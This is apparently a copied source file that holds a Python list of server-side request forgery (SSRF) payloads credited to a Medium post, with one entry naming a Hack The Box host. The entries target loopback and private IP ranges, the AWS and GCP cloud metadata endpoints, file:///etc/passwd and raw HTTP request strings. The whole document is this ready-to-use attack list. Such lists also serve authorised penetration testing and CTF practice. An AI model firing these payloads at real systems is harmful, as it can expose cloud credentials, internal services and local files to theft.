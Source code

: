 
##
#
https://pravinponnusamy.medium.com/ssrf-payloads-f09b2a86a8b4
#
##



```
ssrf_payloads = [
    # Common URLs
    "http://example.com",
    "https://example.com",
    "http://localhost",
    "http://127.0.0.1",
    "http://0.0.0.0",
    "http://192.168.1.1",
    "http://10.0.0.1",
    "http://172.16.0.1",
    "http://backfire.htb",
    
    # Internal IPs
    "http://169.254.169.254",  # AWS metadata service
    "http://metadata.google.internal",  # GCP metadata service
    "http://10.1.1.1",
    "http://192.168.0.1",
    "http://192.168.100.1",
    "http://192.168.1.254",
    "http://10.10.10.10",
    "http://172.16.0.10",
    
    # Common SSRF patterns
    "http://example.com/api?url=http://127.0.0.1:40056",
    "http://example.com/api?url=http://localhost:40056",
    "http://example.com/api?url=http://192.168.1.1",
    "http://example.com/api?url=http://169.254.169.254/latest/meta-data/",
    
    # Localhost and loopback addresses
    "http://localhost:40056",
    "http://127.0.0.1:40056",
    "http://0.0.0.0:40056",
    
    # Other protocols
    "ftp://127.0.0.1",
    "ftp://localhost",
    "file:///etc/passwd",  # Local file access
    "http://192.168.1.1:80",
    
    # Testing various HTTP methods
    "GET / HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: close\r\n\r\n",
    "POST /api/v1/resource HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Length: 0\r\n\r\n",
    
    # Testing with different ports
    "http://127.0.0.1:8080",
    "http://127.0.0.1:3000",
    "http://127.0.0.1:5000",
    
    # Testing with different paths
    "http://127.0.0.1/api/v1/users",
    "http://127.0.0.1/api/v1/status",
    "http://127.0.0.1/api/v1/commands",
    
    # Testing with various query parameters
    "http://127.0.0.1/api?url=http://example.com",
    "http://127.0.0.1/api?redirect=http://localhost",
```